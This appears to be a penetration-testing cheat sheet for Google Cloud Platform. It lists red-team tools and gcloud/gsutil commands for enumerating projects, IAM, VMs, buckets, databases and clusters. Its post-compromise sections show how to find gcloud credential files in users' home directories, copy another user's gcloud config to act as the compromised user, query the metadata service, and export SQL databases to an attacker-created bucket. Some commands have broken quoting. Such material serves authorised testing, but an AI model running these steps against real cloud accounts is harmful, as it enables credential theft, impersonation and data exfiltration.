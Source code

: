 ## Docu
https://six2dez.gitbook.io/pentest-book/enumeration/cloud/gcp
### Pentesting Tactics
https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
### IAM and Rolse References
https://cloud.google.com/iam/docs/permissions-reference
https://cloud.google.com/iam/docs/understanding-roles
### Persistence with SSH keys
https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#gcloud-or-api

## Tools
### Firewall enum
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_firewall_enum
### Enumerate GCP
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_enum
### Vulneravility scaner
https://github.com/aquasecurity/cloudsploit/blob/master/docs/gcp.md#cloud-provider-configuration
### Hardening review
https://github.com/DenizParlak/hayat
### Bruteforce Buckets
https://github.com/RhinoSecurityLabs/GCPBucketBrute
### IAM vsualization
https://github.com/marcin-kolda/gcp-iam-collector
### Gather information
https://github.com/nccgroup/ScoutSuite
### Miscelania
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_misc
## Audit tool
https://github.com/cloudsploit/scans

## Usefull comands
### Authentication with gcloud and retrieve info
```
gcloud auth login
gcloud auth activate-service-account --key-file creds.json
gcloud auth list
gcloud config list
gcloud organizations list
gcloud organizations get-iam-policy <org ID>
gcloud projects get-iam-policy <project ID>
gcloud projects list
gcloud config set project <project name>
gcloud services list
gcloud source repos list
gcloud source repos clone <repo_name>
```

### Virtual Machines
```
gcloud compute instances list
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"
```
### Puts public ssh key onto metadata service for project
```
gcloud compute ssh <local host>
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H &#39;Metadata-Flavor:Google’
```
### Use Google keyring to decrypt encrypted data
```
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```

### Storage Buckets
#### List Google Storage buckets
```
gsutil ls
gsutil ls -r gs://<bucket name>
gsutil cp gs://bucketid/item ~/
```

### Webapps & SQL
```
gcloud app instances list
gcloud sql instances list
gcloud spanner instances list
gcloud bigtable instances list
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>
```
### Export SQL databases and buckets
#### First copy buckets to local directory
```
gsutil cp gs://bucket-name/folder/ .
```
#### Create a new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>
```
### Networking
```
gcloud compute networks list
gcloud compute networks subnets list
gcloud compute vpn-tunnels list
gcloud compute interconnects list
```

### Containers
```
gcloud container clusters list
```

### GCP Kubernetes config file
```
 ~/.kube/config #gets generated when you are authenticated with
gcloud container clusters get-credentials <cluster name> --region <region>
kubectl cluster-info
```

### Serverless
```
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

### Gcloud stores creds in
``` ~/.config/gcloud/credentials.db # Search home directories
sudo find /home -name "credentials.db
```

### Copy gcloud dir to your own home directory to auth as the compromised user
```
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

### Metadata Service URL
```
# metadata.google.internal = 169.254.169.254
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H
"Metadata-Flavor: Google"
```